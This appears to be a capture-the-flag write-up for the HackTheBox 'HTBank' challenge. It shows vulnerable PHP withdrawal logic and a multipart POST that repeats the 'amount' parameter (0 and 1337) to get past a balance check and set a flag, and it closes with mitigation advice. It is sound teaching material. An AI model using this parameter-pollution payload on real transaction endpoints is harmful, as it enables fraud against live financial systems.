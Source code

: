 # HTBank Challenge: Parameter Pollution Exploit

## Overview

In this challenge, we exploited **parameter pollution** to trigger a specific SQL update in the backend, bypassing restrictions imposed by account balance checks.

---

## Vulnerable Page

The page accepts two parameters, `amount` and `account`, used for transferring money to a specified account. An example POST request looks like:

```http
-----------------------------347926212315686409974148623746
Content-Disposition: form-data; name="account"

123123123
-----------------------------347926212315686409974148623746
Content-Disposition: form-data; name="amount"

123
-----------------------------347926212315686409974148623746--
```

---

## Vulnerability in Backend Code

The backend contains the following logic in the `WithdrawController.php` file:

```php
if ($amount == 1337) {
    $this->database->query('UPDATE flag set show_flag=1');

    return $router->jsonify([
        'message' => 'OK'
    ]);
}
```

### Key Observations:

1. **SQL Update Trigger**: The SQL query updates the `show_flag` column to `1` when the `amount` parameter equals `1337`.
2. **Account Balance Restriction**: The transfer is blocked if the account balance is insufficient. On our test account, the balance was `$0`.

---

## Exploitation Strategy

To bypass the balance restriction and trigger the SQL query, we used **HTTP Parameter Pollution (HPP)**. By sending multiple `amount` parameters in the request, we controlled how the server interpreted the values.

### Exploit POST Request

```http
-----------------------------41568353612097066037194589025
Content-Disposition: form-data; name="account"

123123123
-----------------------------41568353612097066037194589025
Content-Disposition: form-data; name="amount"

0
-----------------------------41568353612097066037194589025
Content-Disposition: form-data; name="amount"

1337
-----------------------------41568353612097066037194589025--
```

### Explanation of the Payload:

1. **First `amount` Parameter**:
   
   - Value: `0`
   - Purpose: Ensures the transaction is allowed by satisfying the account balance restriction.

2. **Second `amount` Parameter**:
   
   - Value: `1337`
   - Purpose: Triggers the SQL query to update the `show_flag` column.

---

## Result

When the request was sent, the server processed the parameters in a way that bypassed the balance check (`amount=0`) and executed the SQL update (`amount=1337`). Upon refreshing the page, the flag was revealed:

### Flag Output

```
HTB{example_flag_value_here}
```

---

## Lessons Learned

### Key Takeaways

1. **HTTP Parameter Pollution**
   
   - Servers may process multiple instances of the same parameter differently, leading to unexpected behaviors.

2. **Validation Logic Vulnerabilities**
   
   - Insufficient checks on parameter handling can allow bypasses.

3. **SQL Update Logic**
   
   - Direct execution of queries based on user input can lead to unintended consequences.

### Mitigation Strategies

1. **Sanitize Input**:
   
   - Ensure that duplicate parameters are not processed or clearly define how they should be handled.

2. **Account Balance Validation**:
   
   - Perform strict checks to ensure the account balance is sufficient for the entire transaction.

3. **SQL Query Security**:
   
   - Avoid directly embedding user inputs in SQL queries without thorough validation.

---

## Skills Gained

1. Understanding and exploiting **HTTP Parameter Pollution**.
2. Analyzing backend logic to identify security flaws.
3. Crafting specific payloads to bypass restrictions and manipulate server-side logic.
